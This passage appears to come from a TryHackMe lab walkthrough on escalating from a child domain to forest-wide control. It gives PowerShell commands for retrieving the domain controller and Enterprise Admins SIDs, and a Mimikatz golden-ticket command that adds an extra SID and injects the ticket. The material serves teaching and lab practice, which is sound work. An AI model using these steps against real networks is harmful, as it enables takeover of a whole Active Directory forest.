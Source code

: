The key here is that we will exploit the trust the parent domain has with our child domain by adding the SID of the Enterprise Admins (EA) group as an extra SID to our forged ticket for the domain controller of the child domain. The EA group belongs to the parent domain and membership to this group essentially grants Administrative privileges over the entire forest! The default SID for this group is S-1-5-21-<RootDomain>-519.

Before we can go into exploitation, we first need to recover two SIDs:

	The SID of the child domain controller (THMDC), which we will impersonate in our forged TGT
	The SID of the Enterprise Admins in the parent domain, which we will add as an extra SID to our forged TGT

To recover these SIDs, we can use the AD-RSAT Powershell cmdlets. We can recover the SID of the child domain controller using the following command:
~~~bash
PS C:\> Get-ADComputer -Identity "THMDC"

DistinguishedName : CN=THMDC,OU=Domain Controllers,DC=za,DC=tryhackme,DC=loc
DNSHostName       : THMDC.za.tryhackme.loc
Enabled           : True
Name              : THMDC
ObjectClass       : computer
ObjectGUID        : bd651750-782b-4b09-93b4-b5987ec7311b
SamAccountName    : THMDC$
SID               : S-1-5-21-3885271727-2693558621-2658995185-1001
UserPrincipalName :
~~~

We can recover the SID of the Enterprise Admins group using the following command to query the parent domain controller:

~~~bash
PS C:\> Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc

DistinguishedName : CN=Enterprise Admins,CN=Users,DC=tryhackme,DC=loc
GroupCategory     : Security
GroupScope        : Universal
Name              : Enterprise Admins
ObjectClass       : group
ObjectGUID        : a23ae384-16e8-44d5-9b36-8173c4e0e5de
SamAccountName    : Enterprise Admins
SID               : S-1-5-21-3330634377-removed-519
~~~

## Exploiting Domain Trusts

We finally have all of the information required to create our forged TGT. We will use Mimikatz to generate this golden ticket. The command will look something like this:
~~~bash
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt
User      : Administrator
Domain    : za.tryhackme.loc (ZA)
SID       : S-1-5-21-3885271727-2693558621-2658995185-1001
~~~